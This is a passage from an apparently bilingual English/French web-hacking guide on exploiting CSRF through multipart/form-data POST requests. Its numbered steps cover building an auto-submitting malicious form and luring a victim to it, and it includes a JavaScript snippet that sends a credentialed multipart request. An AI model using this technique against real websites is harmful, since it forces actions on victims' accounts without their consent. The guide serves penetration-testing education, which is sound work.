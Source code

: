4. Set the form's action attribute to the target endpoint: Ensure that the form's action attribute points to the target endpoint.

4. Définir l'attribut action du formulaire sur le point d'extrémité cible : Assurez-vous que l'attribut action du formulaire pointe vers le point d'extrémité cible.

5. Set the form's method attribute to POST: Specify that the form should be submitted using the POST method.

5. Définir l'attribut method du formulaire sur POST : Spécifiez que le formulaire doit être soumis en utilisant la méthode POST.

6. Set the form's enctype attribute to multipart/form-data: Indicate that the form data should be encoded as multipart/form-data.

6. Définir l'attribut enctype du formulaire sur multipart/form-data : Indiquez que les données du formulaire doivent être encodées en multipart/form-data.

7. Include the necessary form fields: Add the required form fields to perform the desired action on the target website.

7. Inclure les champs de formulaire nécessaires : Ajoutez les champs de formulaire requis pour effectuer l'action souhaitée sur le site web cible.

8. Submit the form automatically: Use JavaScript to automatically submit the form when the malicious HTML page is loaded.

8. Soumettre le formulaire automatiquement : Utilisez JavaScript pour soumettre automatiquement le formulaire lorsque la page HTML malveillante est chargée.

9. Trick the victim into visiting the malicious HTML page: Find a way to trick the victim into visiting the page containing the malicious form.

9. Tromper la victime pour qu'elle visite la page HTML malveillante : Trouvez un moyen de tromper la victime pour qu'elle visite la page contenant le formulaire malveillant.

10. Perform the CSRF attack: When the victim visits the malicious HTML page, their browser will automatically submit the form, triggering the desired action on the target website.

10. Effectuer l'attaque CSRF : Lorsque la victime visite la page HTML malveillante, son navigateur soumettra automatiquement le formulaire, déclenchant l'action souhaitée sur le site web cible.

By following these steps, you can exploit CSRF vulnerabilities using a multipart/form-data POST request.

En suivant ces étapes, vous pouvez exploiter les vulnérabilités CSRF en utilisant une requête POST multipart/form-data.
```javascript
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```
### Requête POST de formulaire à partir d'un iframe
